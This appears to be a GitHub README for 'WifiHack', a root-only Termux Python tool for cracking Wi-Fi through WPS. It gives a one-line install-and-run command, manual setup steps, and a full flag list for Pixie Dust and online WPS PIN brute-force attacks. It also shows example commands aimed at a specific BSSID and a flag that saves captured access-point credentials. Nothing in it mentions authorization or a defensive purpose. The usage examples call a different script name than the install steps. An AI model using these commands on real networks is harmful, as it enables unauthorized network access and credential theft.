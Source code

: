 # wifi-hacking
<p align="center"><img src="https://user-images.githubusercontent.com/75953873/115979290-66309900-a55b-11eb-8259-4b125efc42bb.png"></p>

[![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)



### How to update WifiHack
To check for updates and update, run the following command:
```
(cd WifiHack && git pull)
```

### One click Installation :
```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone --depth 1 https://github.com/Gtajisan/WifiHack && sudo python WifiHack/WifiHack.py -i wlan0 -K
```
## Feutures and Contains :


```bash 

1)Scan Networks   

2)Getting Handshake

3)Create passed crack 

4)Install Wireless supported                  

5)WPS Networks attacks 

6)Scan for WPS Networks

7)Crack WiFi all of tham

8)Crack Handshake without monitor mod support 
```

## Tested On :

* Kali Linux (🚫)
* BlackArch Linux (🚫)
* Ubuntu (🚫)
* Kali Nethunter (🚫)
* Termux ( Rooted Devices✅)
* Parrot OS (🚫)
* তুমি আছো তুমি নাই (🤣)

## [Termux](https://termux.com/)
Please note that root access is required.  

### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://l.top4top.io/p_28355s7ua0.png"></


#### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
**Getting WifiHack**
 ```
 
 git clone --depth 1 https://github.com/gtajisan/WifiHack WifiHack
 ```
 
#### Running
 ```
 sudo python WifiHack/WifiHack.py -i wlan0 -K
 ```
 
 
 
# Usage
```
 WifiHack.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 farhan.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 farhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 farhan.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running WifiHack with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
